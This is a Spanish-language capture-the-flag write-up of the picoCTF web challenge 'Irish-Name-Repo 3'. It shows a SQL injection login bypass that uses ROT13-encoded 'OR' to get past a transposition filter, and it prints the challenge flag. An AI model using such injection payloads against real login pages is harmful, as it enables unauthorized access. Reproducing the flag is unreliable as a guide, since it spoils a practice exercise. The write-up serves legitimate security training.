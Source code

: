 ```yaml
---
title: Irish-Name-Repo 3
date: 2025-05-19 00:00:00 +0200
categories: [writeup, picoctf]
tags: [picoctf, irish-name-repo 3, explotación web]     
image:
    path: https://picoctf.org/img/logos/pico-mark.svg
    alt: PicoCTF
---
```


>Irish-Name-Repo 3
Author: Xingyang Pan
Description
There is a secure website running at https://jupiter.challenges.picoctf.org/problem/40742/ (link) or http://jupiter.challenges.picoctf.org:40742. Try to see if you can login as admin!
{: .prompt-tip }

Al abrir la web tenemos un botón que nos pedirá la password, si capturamos o en la propia consola ponemos atención al request veremos que
se están enviando la siguiente información:

password=admin&debug=0

Empiezo por probar lo más obvio, poner debug a 1. Cuando haces esto enseguida caes en la cuenta de que parece una inyección sql pero
con algunos matices. 



Primero de todo como podemos cambiar el orden de los parámetros para no liarlos
debug=1&password=adfasdf

Cuando hago la inyección 
>1234' OR  '1=1';
Nos aparece esto:
```
password=1234' BE  '1=1';
```

Empecé a jugar con los valores hasta darme cuenta que durante el debug estos valores estaban siendo alterados, 
OR aparece como BE. Así que imagine que podía establecer una relación y es bastante obvia, hay una transposición durante el debug.

>OPQR se transpone a BCDE

Pruebo con lo siguiente siguiendo la lógica anterior
debug=1&password=1234' BE  '1=1';

``` html
password: 1234' BE  '1=1';
SQL query: SELECT * FROM admin where password = '1234' OR  '1=1';'

Logged in!

Your flag is: picoCTF{3v3n_m0r3_SQL_4424e7af}
```
flag: **picoCTF{3v3n_m0r3_SQL_4424e7af}**

Otra inyección SQLi pero con una variación curiosa. 
